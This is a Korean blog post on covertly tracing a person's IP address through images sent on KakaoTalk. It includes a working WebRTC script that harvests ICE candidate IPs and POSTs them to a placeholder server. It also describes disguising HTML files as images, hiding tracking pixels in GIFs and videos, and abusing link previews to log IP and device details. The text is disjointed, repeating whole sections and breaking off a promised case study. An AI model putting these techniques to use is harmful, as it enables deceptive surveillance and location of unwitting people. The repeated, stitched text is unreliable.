 ```yaml
---
title: "사진 한 장으로 아이피 추적하기1 - 방법을 찾아보자"
categories:
  - security
tags:
  - 잡다한 연구
---
```


# 📸 사진 한 장으로 아이피를 추적해보자!

우리는 평소에 별 생각 없이 카카오톡으로 이미지를 주고받는다. 그런데 이 **단 한 장의 이미지**가 상대방의 **공용 IP 주소**와 **접속 환경**을 추적하는 수단이 될 수 있다는 걸 아는가?

---

## 🧠 1. WebRTC를 활용한 IP 추적 원리

**WebRTC**는 브라우저 기반의 P2P 기술로, 영상통화나 파일 전송에 쓰인다. 이 기술은 브라우저 간 직접 통신을 만들기 때문에, 특정 조건이 맞으면 상대방의 공용 IP 주소(심지어 내부 IP까지도!)를 노출시킬 수 있다.

### **기본 절차**
1. 상대방이 WebRTC 추적 기능이 포함된 웹사이트에 접속하도록 유도
2. STUN 서버를 통해 상대방의 IP 정보를 수집
3. 수집한 IP를 기반으로 위치 추정

---

## 🖼️ 2. 이미지를 이용한 WebRTC 유도 방식

이미지만으로 WebRTC를 실행할 수는 없지만, **이미지를 가장한 HTML 페이지**나 **이미지에 연결된 링크**를 통해 상대방을 WebRTC 페이지로 유도할 수 있다.

### 📌 방법 A. 이미지에 링크를 숨겨두기
- EXIF 메타데이터에 링크 삽입 (단, 카카오톡은 이 정보를 삭제할 가능성이 높다)

### 📌 방법 B. HTML을 이미지처럼 위장
1. WebRTC 스크립트를 삽입한 HTML 파일을 만든다.
2. `<img>` 태그와 위장된 제목으로 상대방이 열도록 유도
3. 해당 HTML 파일이 열리면 WebRTC가 실행되고 IP 수집이 시작된다

```html
<script>
    const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
    pc.createDataChannel("");
    pc.createOffer().then(o => pc.setLocalDescription(o));
    pc.onicecandidate = e => {
        if (e.candidate) {
            fetch("https://yourserver.com/log", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({ ip: e.candidate.candidate })
            });
        }
    };
</script>
```
>⚠️ 단점: 상대방이 '이미지'인 줄 알고 열어야 하며, 모바일에서는 실행되지 않을 수 있음

✅ 3. 우리는 이렇게 성공했다: 카카오톡 '사진 미리보기'를 이용한 실전 IP 추적 사례
WebRTC보다 더 현실적인 방식이 바로 이것이다.

카카오톡은 외부 이미지 링크를 미리보기로 자동 불러온다. 이 점을 활용하면, 상대방의 단말기에서 이미지를 로딩하면서 서버에 직접 요청이 들어오고, 그 순간 IP 주소, 브라우저 정보, 기종 정보가 로그로 남는다.
### **1. WebRTC를 활용한 IP 주소 추출 원리**

WebRTC는 브라우저 기반의 P2P(Peer-to-Peer) 기술로, 영상통화, 음성채팅, 파일 전송 등에 사용돼. WebRTC 기반의 서비스를 이용할 경우, 상대방의 **공용 IP 주소**(그리고 일부 경우 내부 IP) 를 확인할 수 있다.

**방법:**

1. 상대방이 WebRTC 기능이 포함된 웹사이트에 접속하도록 유도.
2. 사이트에서 STUN 서버를 이용해 상대방의 공용 IP를 가져옴.
3. 해당 IP를 기반으로 위치를 분석.

---

### **2. 이미지 파일을 통한 WebRTC 유도 방법**

이미지만 전송해서 직접 WebRTC를 실행할 수는 없지만, **이미지에 포함된 URL**을 통해 상대방을 WebRTC 트래킹 사이트로 유도하는 방법이 가능하다.
- 카카오톡 자체에서는 WebRTC가 자동 실행되지 않지만, **특정 방식으로 채팅방에서 코드가 실행되도록 유도할 수 있음.**

### **▶ 방법**

1. **GIF, 스티커, 동영상 파일에 WebRTC 기능이 포함된 링크를 삽입**.
2. **상대방이 클릭하지 않더라도, 미리보기 기능을 이용해 자동 실행되도록 제작**.

🚀 **실전 예제**:

- 상대방이 GIF 파일을 확인하는 순간, **외부 서버에서 WebRTC 실행 코드가 포함된 페이지가 로드**되도록 설정.
- GIF 또는 영상 파일 내부에 **추적용 픽셀(Tracking Pixel)**을 숨겨놓고, 상대방이 볼 때 자동 실행.

💡 **이 방식의 장점**:

- 상대방이 "클릭"하지 않아도 **채팅방에서 미리보기로 확인하는 순간** WebRTC 실행 가능.
- GIF나 영상은 자연스러워서 의심을 덜 살 가능성이 높음.

⚠️ **주의**: 카카오톡의 보안 업데이트에 따라 동작 방식이 달라질 수 있음.

### **방법 1: 이미지 내 링크 삽입 (Meta Link Trick)**

- 이미지 메타데이터(EXIF)에 특정 URL을 숨겨놓고, 상대방이 이미지를 열었을 때 해당 URL이 실행되도록 유도.
- 이 방식은 특정 프로그램에서만 동작하지만, **카카오톡에서는 작동하지 않을 가능성이 높음.**

### **방법 2: HTML 파일을 이미지처럼 위장 (더 효과적)**

1. **WebRTC 추적 페이지 제작**
    - WebRTC IP 추출 스크립트를 포함한 HTML 페이지를 만든다.
    - 이 HTML을 이미지처럼 위장하여 상대방이 열도록 유도.
2. **이미지를 링크로 연결**
    - 상대방이 이미지를 클릭하도록 만들고, 클릭 시 WebRTC 페이지가 열리게 함.
    - 카카오톡에서는 직접 실행되지 않을 수 있지만, 특정 브라우저에서 열리면 가능.
## **🔥 결론**

✅ **가장 확실한 방법**: **카카오톡 영상통화를 통해 WebRTC 패킷 분석**

✅ **차선책**: **WebRTC 기능이 포함된 문서파일(HTML, PDF 등)을 보내 실행 유도**

✅ **고급 기법**: **GIF, 영상 미리보기를 이용해 자동 실행 유도**
